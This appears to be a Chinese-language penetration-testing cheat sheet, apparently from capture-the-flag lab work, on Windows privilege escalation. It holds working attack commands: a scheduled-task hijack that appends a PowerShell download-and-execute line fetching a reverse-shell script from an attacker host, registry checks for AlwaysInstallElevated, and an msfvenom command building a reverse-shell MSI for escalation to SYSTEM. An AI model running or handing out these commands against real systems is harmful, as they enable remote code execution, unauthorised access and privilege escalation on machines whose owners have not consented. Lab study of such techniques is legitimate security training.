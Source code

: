 ```powershell
$username = '';
$password = '';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
New-PSSession -ComputerName <IP> -Credential $credential
Enter-PSSession 1
```


# 攻击向量

- ##### 特权组检查/提权 ：
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/privileged-groups-and-token-privileges

### 定时任务

清空脚本文件，然后追加写入命令,使用 ping 测试
```
cmd /c copy /y NUL clean.bat
cmd /c "echo ping 10.10.14.29 >> clean.bat"
```
反弹 shell 就用 nishang 的 Invoke-Powershell.ps1 (端口最好设置443，免得有防火墙限制出入站规则)
```
cmd /c "echo powershell iex(new-object net.webclient).downloadstring('http://10.10.14.29/rev.ps1') >> clean.bat"
```


### AlwaysInstallElevated set to 1
WinPeas 显示
```
AlwaysInstallElevated set to 1 in HKLM!
AlwaysInstallElevated set to 1 in HKCU!
```
PowerUp 显示
```
AbuseFunction : Write-UserADDMSI 
```
手动确认：
```cmd
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```
如果值都为0x1 , 则可以利用该点提权至 SYSTEM 

制作一个恶意 MSI 文件并从我们的反向 shell 执行它
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.14 LPORT=1337 -a x64 --platform Windows -f msi -o evil.msi
```
上传到靶机后，建立监听，执行
`.\evil.msi`
